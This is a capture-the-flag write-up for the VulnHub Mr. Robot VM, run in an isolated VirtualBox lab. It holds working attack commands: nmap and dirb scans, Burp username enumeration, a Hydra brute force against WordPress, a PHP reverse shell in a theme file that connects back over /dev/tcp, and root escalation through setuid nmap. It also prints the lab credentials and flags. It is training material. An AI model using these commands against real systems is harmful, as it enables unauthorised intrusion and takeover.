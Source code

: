 # Mr-Robot-CTF
Hacking Exercise: in the style of Mr Robot

Mr. Robot-Inspired Hacking Exercise (CTF Write-Up)
🛠️ Setup
Downloads:
Kali Linux for VirtualBox: https://www.kali.org/get-kali/#kali-virtual-machines
Mr. Robot VM from VulnHub: https://www.vulnhub.com/entry/mr-robot-1,151/
VirtualBox Setup:
Add both Kali and Mr. Robot VMs to VirtualBox.
Create an internal network called "net" and assign both VMs to it.
Enable DHCP so Mr. Robot can get an IP:
bash
CopyEdit
VBoxManage dhcpserver add --network=net --server-ip=192.168.56.1 --lower-ip=192.168.56.100 --upper-ip=192.168.56.200 --netmask=255.255.255.0 --enable
Explanation:
--server-ip: Acts like the router IP.
--lower-ip / --upper-ip: IP range for devices on the network.
Boot up Kali:
User: kali
Password: kali
Check IP:
bash
CopyEdit
ip add show
Got IP: 192.168.56.100/24 ✅ No external internet access — as expected.

🔎 Scanning the Target
Boot up Mr. Robot VM — you’re met with a login screen. No creds. Time to investigate.
Use Nmap to scan the subnet:
bash
CopyEdit
sudo nmap -sS -T4 192.168.56.100-200
Flags Explained:
-sS: Stealth SYN scan. Sends SYN packets to check for open ports without completing the TCP handshake.
-T4: Aggressive timing — speeds up scanning. Great for internal networks like this, but can be noisy on real networks.

🌐 Web Recon
Found something at: http://192.168.56.101
Looks like a cool Mr. Robot-themed website, but no obvious way in yet.
Check for Hidden Directories
bash
CopyEdit
sudo dirb http://192.168.56.101
Found:
/robots.txt → Contains Key 1: 073403c8a58alf80d943455fb30724b9
Also found fsocity.dic → Likely a wordlist.

🔐 WordPress Login Enumeration
Try going to: http://192.168.56.101/wp-login.php
Tried “admin” / “admin” → “Invalid username” error suggests the system tells you when a username exists 👀
Time to enumerate usernames with Burp Suite Intruder.
Steps:
Intercept a login with username = test, password = test.
Send the request to Intruder.
Replace log=test with a payload position.
Load fsocity.dic as your wordlist.
Start attack.
✅ One result stands out — response is different for username Elliot. 🎯 We've found the correct username!

🔓 Brute Force the Password
Clean up the wordlist first:
bash
CopyEdit
sort fsocity.dic | uniq > fsocity2.txt
Now use Hydra:
bash
CopyEdit
sudo hydra -vV -l elliot -P fsocity2.txt 192.168.56.101 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' | tee -a hydra.txt
Flags:
-vV: Verbose output
-l: Set username
-P: Password list
http-post-form: Format for the attack
🎉 Password Found: ER28-0652 Login successful!

🐚 Reverse Shell (1st Attempt - Fail)
Tried adding a reverse shell to 404.php in WordPress Appearance > Theme Editor.
Payload:
php
CopyEdit
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.102/443 0>&1'");
?>
Set up Netcat listener:
bash
CopyEdit
sudo nc -lvp 443
Visited fake 404 URL → No connection 😕
Tried Metasploit:
bash
CopyEdit
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
Still didn’t work.

🐚 Reverse Shell (2nd Attempt - Success!)
Changed the IP and port in 404.php:
php
CopyEdit
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.100/4444 0>&1'");
?>
Set up Netcat:
bash
CopyEdit
sudo nc -nvlp 4444
Accessed a non-existent page like: http://192.168.56.101/idontexist
🎉 Connected!
Reverse Shell Explained:
bash
CopyEdit
/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.100/4444 0>&1'
bash -i: Opens interactive shell
>& /dev/tcp/...: Redirects output to attacker's IP/port
0>&1: Redirects input from the same connection

🧠 Upgrade the Shell
bash
CopyEdit
python -c 'import pty; pty.spawn("/bin/bash")'
This gives us a more usable shell.

🔑 Key 2 and User Escalation
bash
CopyEdit
cd /home/robot
ls -al
Found:
key-2-of-3.txt
password.raw-md5
View the hash:
bash
CopyEdit
cat password.raw-md5
Hash: c3fcd3d76192e4007dfb496cca67e13b This is the MD5 of: abcdefghijklmnopqrstuvwxyz
Switch user:
bash
CopyEdit
su - robot
# password: abcdefghijklmnopqrstuvwxyz
✅ Now running as robot
Check sudo access:
bash
CopyEdit
sudo -l
❌ "Sorry, user robot may not run sudo on linux."
Get the second key:
bash
CopyEdit
cat key-2-of-3.txt
Key: 822c73956184f694993bede3eb39f959

🔍 Summary of Progress
✅ Key 1: 073403c8a58alf80d943455fb30724b9 ✅ Key 2: 822c73956184f694993bede3eb39f959 🔍 Current User: robot ❌ No sudo privileges (yet) 🔓 MD5 Cracked Password: abcdefghijklmnopqrstuvwxyz 💻 Reverse Shell success after tweaking the IP and port
 🚀 Privilege Escalation to Root (Key 3)
We’ve got two keys, a foothold on the box as user robot, but no sudo access. Time to escalate.

🔍 Step 1: Look for SUID Binaries
We're checking for binaries that have the SUID bit set — which lets users run a file with the permissions of the file owner (often root).
bash
CopyEdit
find / -user root -perm -4000 2>/dev/null
Explanation:
find /: Start from the root directory.
-user root: Only files owned by root.
-perm -4000: Look for the setuid permission.
2>/dev/null: Hide permission errors from inaccessible directories.
Result:
bash
CopyEdit
/usr/local/bin/nmap
... plus others like /bin/ping, /usr/bin/passwd, etc.
🚨 That copy of nmap stands out — it’s in /usr/local/bin, not the usual system path, which suggests it might be an older version. Let’s dig in.

🔍 Step 2: Investigating Nmap
bash
CopyEdit
/usr/local/bin/nmap --version
Output:
less
CopyEdit
nmap version 3.81 ( http://www.insecure.org/nmap/ )
Old version confirmed — v3.81 is known to be vulnerable, and this one is setuid root. Jackpot.

💣 Step 3: Exploiting Nmap (Interactive Mode FTW)
bash
CopyEdit
/usr/local/bin/nmap --interactive
Welcome to Interactive Mode. From here, we can run shell commands using !command.
Let’s test it:
bash
CopyEdit
nmap> !whoami
Result:
nginx
CopyEdit
root
Boom. Root access confirmed 🔥

🐚 Step 4: Spawn a Root Shell
To get a fully interactive shell:
bash
CopyEdit
nmap> !bash -p
The -p flag: Prevents bash from dropping root privileges by preserving the UID.
Now we’re in:
bash
CopyEdit
bash-4.3# whoami
root

🧭 Step 5: Finding the Final Key
Navigate to the root user's home directory:
bash
CopyEdit
cd /root
ls -al
We find:
.bash_history
key-3-of-3.txt 👀
Read the final key:
bash
CopyEdit
cat key-3-of-3.txt
✅ Key 3: 04787ddef27c3dee1ee161b21670b4e4

✅ Exercise Complete!
We captured all 3 flags:

